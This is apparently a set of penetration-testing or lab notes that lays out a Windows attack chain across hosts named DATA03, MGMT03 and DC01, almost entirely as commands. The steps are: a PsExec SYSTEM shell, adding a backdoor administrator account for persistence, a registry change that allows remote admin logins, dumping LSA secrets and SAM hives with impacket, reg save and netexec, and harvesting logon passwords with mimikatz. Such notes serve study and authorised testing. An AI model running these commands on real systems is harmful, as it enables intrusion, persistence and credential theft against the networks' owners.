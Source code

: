 ### List C-drive on DATA03
```
dir \\DATA03\C$
```

### PsExec into the machine
```
.\PsExec64.exe \\DATA03 -i -s cmd.exe
```

### Add a local user for persistence
```
net user {NewUser} {NewUser Password} /add && net localgroup Administrators {NewUser} /add
```

## MGMT03
### Add registry allowing local users to perform logins via WMI on DATA03
```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

### Dump LSA secrets using secretsdump
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py {NewUser}@192.168.0.33
```

### Dump LSA secrets using reg save
```
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py {NewUser}@192.168.0.33

reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SAM C:\SAM

lget C:\SYSTEM
lget C:\SAM

python3 /usr/share/creddump7/lsadump.py SYSTEM SECURITY true
```

### Dump LSA secrets using netexec
```
netexec smb 192.168.0.33 -d WORKGROUP -u {NewUser} -p {NewUser Password} --lsa
```

### Authenticate to MGMT03

## DC01
### Dump NTLM hashes in LSASS (on MGMT03)
```
.\mimikatz.exe
    privilege::debug
    sekurlsa::logonpasswords
```

